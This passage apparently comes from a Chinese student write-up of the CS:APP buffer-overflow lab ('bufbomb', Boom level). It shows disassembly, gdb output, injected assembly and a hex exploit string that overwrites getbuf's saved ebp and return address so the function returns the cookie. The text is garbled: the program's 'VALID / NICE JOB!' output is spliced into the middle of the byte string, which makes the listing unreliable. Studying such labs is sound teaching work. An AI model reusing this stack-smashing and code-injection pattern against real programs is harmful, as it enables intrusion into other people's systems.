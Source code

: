 ```c
    else if (val == cookie) {-
		printf("Boom!: getbuf returned 0x%x\n", val);
		validate(3);
    } else {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```

在`bufbomb.s`中定位到`test`，得到调用`getbuf`后的返回地址为`0x8048e81`。并要求`eax==cookie`。

```asm
08048e6d <test>:
 ...
 8048e7c:	e8 6b 03 00 00       	call   80491ec <getbuf>
 8048e81:	89 c3                	mov    %eax,%ebx
 ...
```

在`gdb`中调试，在调用`getbuf`前下断点。获取此时`ebp`的内容。

```shell
Breakpoint 5, 0x08048e7c in test ()
(gdb) i r ebp
ebp            0x556838a0          0x556838a0 <_reserved+1038496>
```

由`bang`的经验，很容易写出如下代码：

```asm
# return addr: 0x08048e81
# cookie addr: 0x0804c220
movl 0x0804c220, %eax
push $0x08048e81
ret
```

可以构造字符串输入如下。其中最后一行为相同的`ebp`以及`buf`起始地址。

```
a1 20 c2 04 08       	/* mov    0x804c220,%eax */
68 81 8e 04 08       	/* push   $0x8048e81 */
c3                   	/* ret    */
00 00 00 00 00          /* 16 */Userid: U201814791
Cookie: 0x675abfd7
Type string:Boom!: getbuf returned 0x675abfd7
VALID
NICE JOB!
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 32 */
00 00 00 00 00 00 00 00 /* 40 */
a0 38 68 55 48 38 68 55 /* 48 */
```

### 结果
